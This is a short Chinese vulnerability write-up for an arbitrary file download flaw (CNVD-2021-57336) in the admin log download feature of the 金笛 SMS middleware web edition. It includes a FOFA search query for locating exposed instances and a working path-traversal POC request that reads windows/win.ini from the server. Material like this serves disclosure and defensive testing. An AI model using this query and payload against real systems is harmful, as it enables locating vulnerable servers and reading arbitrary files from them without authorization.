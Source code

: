# 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

<a-checkbox checked>金笛 短信中间件Web版</a-checkbox></br>

## FOFA

<a-checkbox checked>app="金笛短信中间件(WEB版)"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630892591726-addf7f10-4238-4266-92ef-758540f4142a.png)

存在漏洞的位置为 日志下载

![img](../../../.vuepress/public/img/1630892623230-03e19886-0499-4cbb-9cbf-abf9ca8ec2e2.png)

验证POC

```python
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![img](../../../.vuepress/public/img/1630892646440-d5dfd8da-0c22-49e4-86c3-d2978938f824.png)
